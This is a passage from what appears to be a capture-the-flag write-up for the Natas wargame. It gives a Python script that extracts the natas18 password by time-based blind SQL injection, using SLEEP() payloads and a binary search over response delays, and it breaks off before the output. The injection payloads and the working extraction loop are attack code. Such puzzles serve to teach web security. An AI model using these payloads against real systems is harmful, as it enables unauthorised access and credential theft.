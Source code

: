     threshold = 3

    def check(inject, verbose=False):
        data = {'username': inject}
        response = requests.post(url, data=data, auth=auth)

        if verbose:
    	print(inject)

        if response.elapsed.total_seconds() > threshold:
      	returned = 1
        else:
     	returned = 0
        return returned

    	
    def search(alphabet, lo, hi, position, verbose=False):
        if hi < lo:
    	return "Not found"
        index  = (hi + lo) // 2
        inject_greater = 'natas18" AND BINARY substr(password, ' + str(position) + \
    ", 1) > '" + alphabet[index] + "' AND SLEEP(5) ##"
    	
        inject_equal = 'natas18" AND BINARY substr(password, ' + str(position) + \
    ", 1) = '" + alphabet[index] + "'AND SLEEP(5) ##"
    	
        inject_less = 'natas18" AND BINARY substr(password, ' + str(position) + \
    ", 1) < '" + alphabet[index] + "'AND SLEEP(5) ##"

        if check(inject_equal, verbose):
    	return alphabet[index]
        elif check(inject_greater, verbose): 
    	return search(alphabet, index + 1, hi, position, verbose)
        elif check(inject_less, verbose):
    	return search(alphabet, lo, index - 1, position, verbose)
        else:
    	return "Something went wrong"
    	 
    position = 1
    password = ""
    verbose = False
    while True:

        result = search(alphabet, 0, len(alphabet)-1, position, verbose)	
        print(f"RESULT: { result } ") 
        if len(result) > 1:
    	break

        password += str(result)
        position += 1

    print(f"The password for natas18 is { password }")
    ```

- It is to be noted that while checking for the delay, if the `threshold` is set to a low value (say, 1), then, there will be an error simply because of random delays in the server response, unrelated to the delay set by the `SLEEP()` function.
- The output of the above code, obtained after a little more than an eternity, is as follows:
